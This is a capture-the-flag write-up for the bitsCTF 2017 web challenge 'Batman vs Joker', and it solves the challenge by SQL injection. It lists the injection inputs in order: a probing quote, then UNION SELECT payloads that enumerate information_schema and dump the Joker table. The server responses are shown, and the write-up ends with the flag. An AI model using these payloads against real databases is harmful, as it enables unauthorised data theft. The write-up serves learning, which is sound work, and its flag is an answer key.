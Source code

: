 # Batman vs Joker

### Challenge
- **Competition:** bitsCTF 2017
- **Category:** Web
- **Points:** 30

> Joker has left a message for you. Your job is to get to the message asap.
> joking.bitsctf.bits-quark.org


### Solution
This challenge required exploiting a classic SQL injection vulnerability.  Starting with a simple single quote, the existence of a possible vulnerability was confirmed:

__Input:__ '
```none
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '''' Limit 1' at line 1
```

Next, some trial and error gave more information about the database structure, including a suspicious table name:

__Input:__ ' union select 1,table_name FROM information_schema.tables;-- -
```none
First name:1
Surname: Joker
```

Finally, the flag was extracted from the __Joker__ database:

__Input:__ ' union select * FROM Joker;-- -
```none
First name:BITSCTF{wh4t_d03snt_k1ll_y0u_s1mply_m4k3s_y0u_str4ng3r!}
Surname: Enjoying the game Batman!!!
```

### Flag

`BITSCTF{wh4t_d03snt_k1ll_y0u_s1mply_m4k3s_y0u_str4ng3r!}`